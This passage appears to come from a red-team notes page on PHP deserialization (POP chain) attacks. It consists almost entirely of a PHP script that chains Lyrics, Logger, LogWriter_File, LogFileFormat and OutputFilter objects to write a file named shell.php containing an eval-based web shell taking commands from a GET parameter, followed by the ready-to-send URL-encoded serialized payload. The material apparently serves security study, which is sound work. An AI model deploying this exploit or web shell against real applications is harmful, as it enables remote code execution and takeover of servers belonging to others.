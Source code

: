```php

class Logger {
  protected $logwriter;
  function __construct($writer) {
    $this->logwriter = $writer;
  }
};

class Lyrics {
  protected $lyrics;
  protected $song;
  function __construct($lyrics, $song) {
    $this->song = $song;
    $this->lyrics = $lyrics;
  }
};

$arr = array(new OutputFilter("//", "<?php @eval(\$_GET['cmd']);?>"));
$obj1 = new LogFileFormat($arr, '\n');
$obj2 = new LogWriter_File("shell.php", $obj1);
$obj3 = new Logger($obj2);
$obj = new Lyrics("test", $obj3);
echo urlencode(serialize($obj));
?>
```

```
O%3A6%3A%22Lyrics%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00lyrics%22%3Bs%3A4%3A%22test%22%3Bs%3A7%3A%22%00%2A%00song%22%3BO%3A6%3A%22Logger%22%3A1%3A%7Bs%3A12%3A%22%00%2A%00logwriter%22%3BO%3A14%3A%22LogWriter_File%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00filename%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A9%3A%22%00%2A%00format%22%3BO%3A13%3A%22LogFileFormat%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A12%3A%22OutputFilter%22%3A2%3A%7Bs%3A15%3A%22%00%2A%00matchPattern%22%3Bs%3A2%3A%22%2F%2F%22%3Bs%3A14%3A%22%00%2A%00replacement%22%3Bs%3A28%3A%22%3C%3Fphp+%40eval%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D%7Ds%3A7%3A%22%00%2A%00endl%22%3Bs%3A2%3A%22%5Cn%22%3B%7D%7D%7D%7D
```

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/POP/2.png)

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/POP/3.png)

---